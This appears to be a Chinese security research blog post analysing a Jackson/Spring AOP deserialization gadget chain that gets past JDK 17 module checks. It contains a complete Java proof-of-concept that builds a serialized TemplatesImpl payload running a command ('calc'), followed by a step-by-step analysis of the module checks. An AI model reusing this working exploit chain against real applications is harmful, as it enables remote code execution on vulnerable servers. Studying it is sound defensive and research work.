链子2
前言：知道是jackson原型链的升级版，不想大费周章，我只关心
模块检测的地方，结果写着写着还是有点占地方，所以单独放一篇文章。及本文主要分析记录
模块检测的地方，其他东西就不啰嗦了
依赖
<dependencies>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-databind</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-core</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-annotations</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-aop</artifactId>
<version>6.2.9</version>
</dependency>
</dependencies>
0x01 poc
poc来自https://mp.weixin.qq.com/s/-4LK60CPhmUD-HUeI7WxXQ
生成exp时带上下面参数，生成时就不必检测下面这些模块了
--add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED --add-opens=java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens=java.desktop/javax.swing.event=ALL-UNNAMED
import javassist.*;
import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.Vector;
public class JDKModuleBypass {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
// Fixed javassist.NotFoundException
// https://blog.csdn.net/qq_72685284/article/details/143278172
pool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
CtClass baseJsonNodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = baseJsonNodeClass.getDeclaredMethod("writeReplace");
baseJsonNodeClass.removeMethod(writeReplace);
baseJsonNodeClass.toClass();
CtClass evilClass = pool.makeClass("Calc");
evilClass.addConstructor(
CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec(\"calc\"); }", evilClass)
);
CtClass tempClass = pool.makeClass("Foo");
byte[] tempClassCode = tempClass.toBytecode();
byte[] evilClassCode = evilClass.toBytecode();
Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
Object templates = aClass.newInstance();
setField(templates, "_name", "test");
// 恶意类字节码在_bytecodes中下标
setField(templates, "_transletIndex", 0);
setField(templates, "_tfactory", Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance());
setField(templates, "_bytecodes", new byte[][]{evilClassCode, tempClassCode});
// 通过AOP稳定Templates getter
Class<?> jdkDynamicAopProxy = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Class<?> advisedSupportClass = Class.forName("org.springframework.aop.framework.AdvisedSupport");
Constructor<?> constructor = jdkDynamicAopProxy.getConstructor(advisedSupportClass);
constructor.setAccessible(true);
Object advisedSupport = advisedSupportClass.newInstance();
Method setTarget = advisedSupport.getClass().getMethod("setTarget", Object.class);
setTarget.invoke(advisedSupport, templates);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, invocationHandler);
// 获取Getter的时候代理对象获取其代理接口Getter
Class<?> name = Class.forName("com.fasterxml.jackson.databind.node.POJONode");
Constructor<?> POJONodeConstructor = name.getConstructor(Object.class);
Object pojoNode = POJONodeConstructor.newInstance(proxy);
EventListenerList eventListenerList = new EventListenerList();
UndoManager manager = new UndoManager();
Field edits = CompoundEdit.class.getDeclaredField("edits");
edits.setAccessible(true);
Vector vector = (Vector) edits.get(manager);
vector.add(pojoNode);
setField(eventListenerList, "listenerList", new Object[]{InternalError.class, manager});
FileOutputStream fileOutputStream = new FileOutputStream("SerializedDatas");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
objectOutputStream.writeObject(eventListenerList);
objectOutputStream.flush();
objectOutputStream.close();
// FileInputStream fis = new FileInputStream("SerializedDatas");
// ObjectInputStream ois = new ObjectInputStream(fis);
// ois.readObject();
}
public static void setField(Object object, String fieldName, Object value) throws Exception {
Class<?> c = object.getClass();
Field field = c.getDeclaredField(fieldName);
field.setAccessible(true);
field.set(object, value);
}
}
import java.io.FileInputStream;
import java.io.ObjectInputStream;
public class JDK17Test {
public static void main(String[] args) throws Exception {
FileInputStream fis = new FileInputStream("SerializedDatas");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
fis.close();
}
}
模块检测
检测1
这里设置getter Method后

后续这里代理类满足上方if条件，会对上面设置的getter Method进行setAccessible(true)，会进行模块检测

说重点，在isExported()中最后会到下图这里，get到值（值是在implAddExportsOrOpens()插入的）返回true，及进入下图2中的if判断
图1

这里最后，该Method属于Public返回true，然后后面setAccessible0(true)会给**override**赋值！！
图2

及这里invoke时因为override为true（属于已经进行过模块检测了），这里会跳过检测直接进行invoke调用，所以上面是实际检测的地方


[*]检测2
这一步可谓是整个利用的核心
Method originalMethod = BridgeMethodResolver.findBridgedMethod(method);
ReflectionUtils.makeAccessible(originalMethod);
return coroutinesReactorPresent && KotlinDetector.isSuspendingFunction(originalMethod) ? AopUtils.KotlinDelegate.invokeSuspendingFunction(originalMethod, target, args) : originalMethod.invoke(target, args);
这里method是Templates接口方法（public abstract java.util.Properties javax.xml.transform.Templates.getOutputProperties()
在ReflectionUtils.makeAccessible(originalMethod);中因为是public 方法会跳过setAccessible(true)
及最终的检测是在originalMethod.invoke(target, args)，这里有个点注意，这里检测对象是method对应的类（Templates），而不是target

最后在isExported()后续这里Templates的Package值属于白名单，会get到值，这里返回true

又因javax.xml.transform.Templates.getOutputProperties()属于public，最终返回true通过模块检测

检测3
最后这里newInstance()也会触发模块检测

由于我们的恶意类Calc没有设置模块，所以这里name是null，则不会throw抛出错误，通过模块检测

Calc自构方法是public

小结
即核心是JdkDynamicAopProxy#invoke，他做了什么呢
Method.invoke(obj,args)
他使Method对应的
Class和obj不是同一个，即相当于Templates替TemplatesImpl去做的模块检测因为正常invoke这种形式调用，一般都去
obj.getClass().getMethod()这种形式去获取Method
即能实现这种效果就可以打破模块检测的魔咒啦（或者我CC那种多次invoke暴力改pn，但是感觉CC的利用条件很苛刻，不是很好能找到相似的